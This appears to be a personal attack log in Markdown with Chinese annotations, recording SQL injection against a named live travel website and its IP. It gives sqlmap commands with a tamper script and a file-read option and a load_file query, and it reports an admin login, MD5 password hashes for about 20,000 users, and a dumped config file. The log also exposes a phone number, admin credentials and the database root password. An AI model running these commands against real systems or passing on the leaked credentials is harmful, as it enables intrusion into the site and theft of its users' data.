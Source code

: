 http://www.easy-tour.cn

ip:139.199.203.224



sqlmap -u "http://www.easy-tour.cn/search/cloudsearch?keyword=1&typeid=0" --level 3 -p keyword --tamper space2comment.py 



15237855933





![image-20200512162842266](/home/zss/.config/Typora/typora-user-images/image-20200512162842266.png)

![image-20200512162941945](/home/zss/.config/Typora/typora-user-images/image-20200512162941945.png)



user：rgx666              pwd：rgx465250



2万用户

![image-20200512171651702](/home/zss/.config/Typora/typora-user-images/image-20200512171651702.png)



可看到密码是MD5加密

![image-20200512172303507](/home/zss/.config/Typora/typora-user-images/image-20200512172303507.png)

成功登录

![image-20200512172239442](/home/zss/.config/Typora/typora-user-images/image-20200512172239442.png)

​                                                                                                                                                                                     





```
select load_file('/usr/local/www/apache24/gdchbt/')
```

sqlmap -u "http://www.easy-tour.cn/search/cloudsearch?keyword=1&typeid=0" --batch --level 3 -p keyword --tamper space2comment.py --file-read=/usr/local/www/apache24/gdchbt/data/common.inc.php

数据库

<?php\r\n//数据库连接信息\r\n$cfg_dbhost = 'localhost';\r\n$cfg_dbname = 'stourwebcms56';\r\n$cfg_dbuser = 'root';\r\n$cfg_dbpwd = 'gzyhy617000673';\r\n$cfg_dbprefix = 'sline_';\r\n$cfg_db_language = 'utf8';\r\n\r\n\r\n?>'